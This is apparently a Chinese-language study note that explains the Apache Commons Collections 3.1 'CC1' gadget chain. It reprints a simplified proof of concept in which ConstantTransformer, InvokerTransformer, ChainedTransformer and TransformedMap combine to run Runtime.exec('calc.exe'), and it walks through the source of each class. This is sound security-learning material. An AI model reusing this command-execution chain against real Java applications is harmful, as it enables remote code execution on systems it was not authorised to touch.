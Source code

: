 ## 02 CommonsCollections_前置

在学习cc1之前，我们先了解一下`commons-collections-3.1`

Apache Commons  Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类。作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发。

由浅入深，先看看P神的极致简化版：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

这个POC中涉及到了`TransformedMap，ConstantTransformer，InvokerTransformer，ChainedTransformer`，这些类全部实现了`Transformer` 接口。

### Transformer

Transformer接口中的transform方法要求传入一个对象，并且返回值也是一个对象

```java
public interface Transformer {
    public Object transform(Object input);
}
```

### ConstantTransformer

ConstantTransformer调用transform方法时会直接返回构造函数中传入的对象，他的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，进⽽⽅便后续操作。

```java
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}
public Object transform(Object input) {
    return iConstant;
}
```

### InvokerTransformer

InvokerTransformer的transform方法中利用了反射，通过反射调用我们传入的类中的方法，所以这类其实就是我们执行恶意命令的核心类。在实例化这个InvokerTransformer时，需要传⼊三个参数，第⼀个参数是待执⾏的⽅法名，第⼆个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表。

```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);  
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
```

### ChainedTransformer

ChainedTransformer类实例化的时候接受一个 Transformer[] 数组，即列表中的所有元素都要实现  Transformer  接口，同时在transform方法中会对Transformer数组中的元素按照顺序调用transform方法，同时将上一个元素的返回对象作为输入传递给下一个元素的transform方法中

```java
public ChainedTransformer(Transformer[] transformers) {
    super();
    iTransformers = transformers;
}
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

ChainedTransformer负责将各个类进行串联，也就是前⼀个回调返回的结果，作为后⼀个回调的参数传⼊：

![img](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20210216100933244.png)

### TransformedMap

TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将可

以执⾏⼀个回调。



## POC分析

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
```

我们创建了一个ChainedTransformer，其中包含两个Transformer：第⼀个是ConstantTransformer，直接返回当前环境的Runtime对象；第⼆个是InvokerTransformer，执⾏Runtime对象的exec⽅法，参数是`calc.exe`

这个transformerChain只是⼀系列回调，我们需要⽤其来包装innerMap，使⽤的前⾯说到的

TransformedMap.decorate ：

```java
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
```

最后向Map中放入一个新元素来触发回调

```java
outerMap.put("test", "xxxx");
```

